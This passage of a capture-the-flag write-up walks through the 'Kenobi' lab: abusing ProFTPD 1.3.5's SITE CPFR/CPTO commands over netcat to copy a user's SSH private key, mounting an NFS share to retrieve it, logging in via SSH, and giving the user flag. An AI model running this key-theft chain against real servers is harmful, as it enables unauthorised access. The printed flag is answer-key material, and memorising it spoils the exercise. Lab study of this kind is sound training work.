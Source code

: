 We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nc 10.10.107.130 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.107.130]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/ssh_id
250 Copy successful
```
We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine

- `mkdir /mnt/kenobiNFS`
- `mount 10.10.107.130:/var /mnt/kenobiNFS`
- `ls -la /mnt/kenobiNFS`

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

```bash
┌──(cyb3ritic㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ cp /mnt/kenobiNFS/tmp/ssh_id ~/Downloads
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ cd ~/Downloads                          
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ chmod 600 ssh_id
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ ssh -i ssh_id kenobi@10.10.107.130
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

**Q4. What is Kenobi's user flag (/home/kenobi/user.txt)?**
![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/kenobi/user_flag.png)
**Ans: `d0b0f3f53b6caa532a83915e19224899`**
